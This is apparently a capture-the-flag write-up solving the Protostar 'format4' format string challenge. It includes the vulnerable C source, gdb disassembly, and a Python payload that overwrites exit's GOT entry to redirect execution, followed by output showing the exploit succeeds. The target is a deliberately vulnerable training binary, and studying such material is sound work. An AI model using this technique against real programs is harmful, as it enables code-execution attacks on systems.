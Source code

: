 Our goal is to solve this explotation challenge <i> [format4](https://exploit.education/protostar/format-four/)</i>


# Code to exploit 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
```
## Problem of code

This is a Format string exploit challenge .
The code passes a string to printf with wrong format.

If the user passes as argv[1] a string like "%x %x %x %x %x" he can read 5 words from the stack 


```c
	#https://owasp.org/www-community/attacks/Format_string_attack

	// This line is safe
	printf("%s\n", argv[1]);

	// This line is vulnerable
	printf(argv[1]);
```

Our goal will be to change the entry of exit function  in global offset table by using %n arguement in vuln-printf.
We want to redirect exit to the function Hello.



We will use gdb to find relevant addresses.

Address of Hello fucntion:

```c
(gdb) disassemble hello
Dump of assembler code for function hello:
0x080484b4 <hello+0>:   push   %ebp
0x080484b5 <hello+1>:   mov    %esp,%ebp
```
Address of exit:

```c
(gdb) disassemble vuln
Dump of assembler code for function vuln:
0x080484d2 <vuln+0>:    push   %ebp
0x080484d3 <vuln+1>:    mov    %esp,%ebp
0x080484d5 <vuln+3>:    sub    $0x218,%esp
0x080484db <vuln+9>:    mov    0x8049730,%eax
0x080484e0 <vuln+14>:   mov    %eax,0x8(%esp)
0x080484e4 <vuln+18>:   movl   $0x200,0x4(%esp)
0x080484ec <vuln+26>:   lea    -0x208(%ebp),%eax
0x080484f2 <vuln+32>:   mov    %eax,(%esp)
0x080484f5 <vuln+35>:   call   0x804839c <fgets@plt>
0x080484fa <vuln+40>:   lea    -0x208(%ebp),%eax
0x08048500 <vuln+46>:   mov    %eax,(%esp)
0x08048503 <vuln+49>:   call   0x80483cc <printf@plt>
0x08048508 <vuln+54>:   movl   $0x1,(%esp)
0x0804850f <vuln+61>:   call   0x80483ec <exit@plt>

disassemble 0x80483ec
Dump of assembler code for function exit@plt:
0x080483ec <exit@plt+0>:        jmp    *0x8049724
0x080483f2 <exit@plt+6>:        push   $0x30
0x080483f7 <exit@plt+11>:       jmp    0x804837c
End of assembler dump.

(gdb) x 0x8049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:   0x080483f2


```
We want to change the address located in 0x8049724, with the address of hello

```
(gdb) x 0x8049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:   0x080484b4
```


And then with this python code we will do the final explotation

```python
import struct

HELLO_ADDR = struct.pack("I",0x080484b4)

OFFSET = "TTTT"

EXIT_GOT_ADDR = struct.pack("I", 0x8049724)
EXIT_GOT_2_ADDR = struct.pack("I", 0x8049724+1)
EXIT_GOT_3_ADDR = struct.pack("I", 0x8049724+2)
EXIT_GOT_4_ADDR = struct.pack("I", 0x8049724+3)

#we make printf print 33950 characters so the next %n will give the wanted value to EXIT_GOT


#Use any of these 2 exploit strings
#exploit = EXIT_GOT_3_ADDR + EXIT_GOT_ADDR + "%x %x %2030x %hn %31918x %5$hn"
exploit = EXIT_GOT_2_ADDR + EXIT_GOT_ADDR + "%x %x %110x %hhn %46x %5$hhn"

# %hhn means printf will write 1 bytes instead of 4
# %hn means printf will write 2 bytes instead of 4


print exploit
```


```
user@protostar:~$ python /tmp/format.py | /opt/protostar/bin/format4
%$200 b7fd8420                                                                                                       bffff504                                         8049724 
code execution redirected! you win
```
